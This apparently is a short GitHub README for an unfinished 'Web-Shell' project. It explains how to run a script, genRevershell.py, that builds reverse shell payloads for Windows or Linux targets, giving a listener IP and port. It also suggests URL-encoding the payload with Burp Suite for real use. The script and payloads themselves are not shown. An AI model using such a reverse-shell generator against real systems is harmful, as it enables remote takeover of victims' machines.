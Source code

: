 # Web-Shell
I have made webshell project to make sure safety without evil code 

**Note: This project is updating**
```
Please wait for complete task

My deadline is 20/10/2021

Thanks.

If anyone can help me, please contact me! 

This project is update every weekends until completing task.

Thanks for reaching.
```
File `genRevershell.py` is use to generate reverse shell via cmd.
How to use:
1. Use python3 
2. Linux OS

To gen for Windows target is :
`python3 genRevershell.py 192.168.1.6 1234 1`

To gen for Linux target is :
`python3 genRevershell.py 192.168.1.6 1234 2`

![image](https://user-images.githubusercontent.com/24661746/130801741-28663ef1-e8be-4f39-9c42-eaf769750dd6.png)

In real case, we need to encode payload as URL(`Ctrl+U` in Burpsuite):

![image](https://user-images.githubusercontent.com/24661746/130804243-78775658-ed64-4abb-8dd5-e0120314eb71.png)

![image](https://user-images.githubusercontent.com/24661746/130805272-33ffe746-7fd4-49b2-be47-87aa8cdef7dc.png)

